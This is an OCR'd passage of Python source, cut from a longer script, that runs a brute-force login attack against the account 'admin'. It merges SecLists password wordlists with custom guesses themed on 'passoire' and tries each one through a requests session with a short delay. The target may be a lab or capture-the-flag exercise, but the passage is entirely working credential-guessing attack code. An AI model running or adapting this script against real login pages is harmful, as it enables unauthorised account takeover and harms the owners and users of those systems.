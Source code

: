 ```
    #username = "jane_smith"
    username = "admin"
    
    # Password list paths
    base_path = Path("/SecLists/Passwords") # Enter path to list of passwords
    password_files = [
        base_path / "2023-200_most_used_passwords.txt",
        base_path / "common_corporate_passwords.lst",
        base_path / "probable-v2-top1575.txt"
    ]
    
    # Security-focused passwords based on chat content
    security_passwords = [
        "passoire", "Passoire2024", "SecureHash2024",
        "Bcrypt123!", "Argon2id", "SecurityFirst",
        "HashMaster", "CryptoExpert", "PasswordHash",
        "Security123", "Crypto2024", "SafePassword",
        # Variations of 'passoire'
        "Passoire123", "passoire123", "PASSOIRE",
        "P@ssoire", "P@ssoire123", "p@ssoire",
        # Security terms
        "Bcrypt", "Argon2", "SHA256",
        "HashFunction", "SecureHash"
    ]
    
    # Collect all passwords
    passwords = set(security_passwords)  # Use set to avoid duplicates
    
    print("Loading password lists...")
    for file in password_files:
        file_passwords = read_password_list(str(file))
        print(f"Loaded {len(file_passwords)} passwords from {file.name}")
        passwords.update(file_passwords)
    
    print(f"\nStarting brute force attack for user: {username}")
    print(f"Testing {len(passwords)} unique passwords...")
    
    session = requests.Session()  # Create one session for all attempts
    
    for password in passwords:
        if try_login(session, base_url, username, password):
            return
        
        # Small delay to avoid overwhelming the server
        time.sleep(0.1)
    
    print("\nNo valid credentials found from password lists.")
    print(f"Total attempts made: {try_login.counter}")

if __name__ == "__main__":
    main()

```
